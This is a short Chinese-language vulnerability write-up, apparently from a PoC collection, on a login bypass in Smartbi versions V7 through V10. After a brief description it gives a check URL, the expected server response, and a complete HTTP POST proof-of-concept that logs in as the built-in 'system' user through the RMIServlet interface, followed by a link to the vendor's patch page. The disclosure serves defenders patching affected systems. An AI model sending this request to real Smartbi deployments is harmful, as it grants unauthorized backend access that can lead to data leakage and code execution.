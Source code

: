 # Smartbi 登录绕过漏洞

## 漏洞描述

该漏洞源于 Smartbi 默认存在内置用户，在使用特定接口时，攻击者可绕过用户身份认证机制获取内置用户身份凭证，随后可使用获取的身份凭证调用后台接口，最终可能导致敏感信息泄露和代码执行。

## 漏洞影响

```
V7 <= Smartbi <=V10
```

## 漏洞复现

验证漏洞是否存在

```
http://your-ip/smartbi/vision/RMIServlet
```

出现以下回显证明漏洞存在

```
{"retCode":"CLIENT_USER_NOT_LOGIN","result":"尚未登录或会话过期"}
```

poc

```
POST /smartbi/vision/RMIServlet HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
 
className=UserService&methodName=loginFromDB&params=["system","0a"]
```

## 漏洞修复

官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级至安全版本：https://www.smartbi.com.cn/patchinfo
